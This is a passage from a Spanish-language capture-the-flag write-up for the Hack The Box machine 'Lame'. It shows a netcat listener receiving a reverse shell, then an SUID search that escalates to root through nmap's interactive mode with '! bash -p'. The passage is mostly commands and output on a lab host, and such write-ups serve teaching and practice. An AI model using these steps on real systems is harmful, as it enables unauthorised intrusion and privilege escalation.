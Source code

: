 ```shell
> nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 60442
whoami
daemon
hostname
lame
```

### Escalada de Privilegios

Buscamos binarios con permisos SUID y vemos uno interesante

```shell
daemon@lame:/tmp$ find / -perm -4000 2>/dev/null
/usr/bin/nmap
```

Vamos aprovecharnos de que podemos ejecutar nmap como root con el modo interactivo

```shell
daemon@lame:/tmp$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help

nmap> help
Nmap Interactive Commands:
n <nmap args> -- executes an nmap scan using the arguments given and
waits for nmap to finish.  Results are printed to the
screen (of course you can still use file output commands).
! <command>   -- runs shell command given in the foreground
x             -- Exit Nmap
f [--spoof <fakeargs>] [--nmap-path <path>] <nmap args>
-- Executes nmap in the background (results are NOT
printed to the screen).  You should generally specify a
file for results (with -oX, -oG, or -oN).  If you specify
fakeargs with --spoof, Nmap will try to make those
appear in ps listings.  If you wish to execute a special
version of Nmap, specify --nmap-path.
n -h          -- Obtain help with Nmap syntax
h             -- Prints this help screen.
Examples:
n -sS -O -v example.com/24
f --spoof "/usr/local/bin/pico -z hello.c" -sS -oN e.log example.com/24

nmap> ! bash -p
bash-3.2# whoami
root
bash-3.2# 
```

### Puerto 445 (smb)
